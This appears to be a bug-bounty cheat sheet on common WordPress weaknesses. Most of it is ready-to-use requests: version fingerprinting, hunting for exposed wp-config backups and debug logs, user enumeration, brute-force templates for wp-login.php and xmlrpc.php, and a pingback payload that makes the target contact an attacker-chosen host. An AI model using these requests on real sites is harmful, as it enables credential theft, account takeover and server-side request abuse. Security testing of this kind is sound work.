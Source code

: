 # WordPress Common Bugs

## Introduction
What would you do if you came across a website that uses WordPress?

1. Find the related CVE by checking the core, plugins, and theme version
* How to find the wordpress version
```
https://target.com/feed
https://target.com/?feed=rss2
```

* How to find the plugin version
```
https://target.com/wp-content/plugins/PLUGINNAME/readme.txt
https://target.com/wp-content/plugins/PLUGINNAME/readme.TXT
https://target.com/wp-content/plugins/PLUGINNAME/README.txt
https://target.com/wp-content/plugins/PLUGINNAME/README.TXT
```

> or change readme.txt to changelog.txt or readme.md

* How to find the theme version
```
https://target.com/wp-content/themes/THEMENAME/style.css
https://target.com/wp-content/themes/THEMENAME/readme.txt (If they have readme file)
```
If you found outdated core / plugins / themes, find the exploit at https://wpscan.com

2. Finding log files
```
http://target.com/wp-content/debug.log
```

3. Finding backup file wp-config
```
http://target.com/.wp-config.php.swp
http://target.com/wp-config.inc
http://target.com/wp-config.old
http://target.com/wp-config.txt
http://target.com/wp-config.html
http://target.com/wp-config.php.bak
http://target.com/wp-config.php.dist
http://target.com/wp-config.php.inc
http://target.com/wp-config.php.old
http://target.com/wp-config.php.save
http://target.com/wp-config.php.swp
http://target.com/wp-config.php.txt
http://target.com/wp-config.php.zip
http://target.com/wp-config.php.html
http://target.com/wp-config.php~
```

4. Get the username on the website
```
http://target.com/?author=1
```
or
```
http://target.com/wp-json/wp/v2/users
http://target.com/?rest_route=/wp/v2/users
```

5. Bruteforce
```
POST /wp-login.php HTTP/1.1
Host: target.com

log=admin&pwd=BRUTEFORCE_IN_HERE&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget.com%2Fwp-admin%2F&testcookie=1
```
or
```
POST /xmlrpc.php HTTP/1.1
Host: target.com

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>admin</value></param> 
<param><value>BRUTEFORCE_IN_HERE</value></param> 
</params> 
</methodCall>
```

6. XSPA in wordpress
```
POST /xmlrpc.php HTTP/1.1
Host: target.com

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://yourip:port</string></value>
</param><param>
<value>
<string>https://target.com></string>
</value>
</param></params>
</methodCall>
```
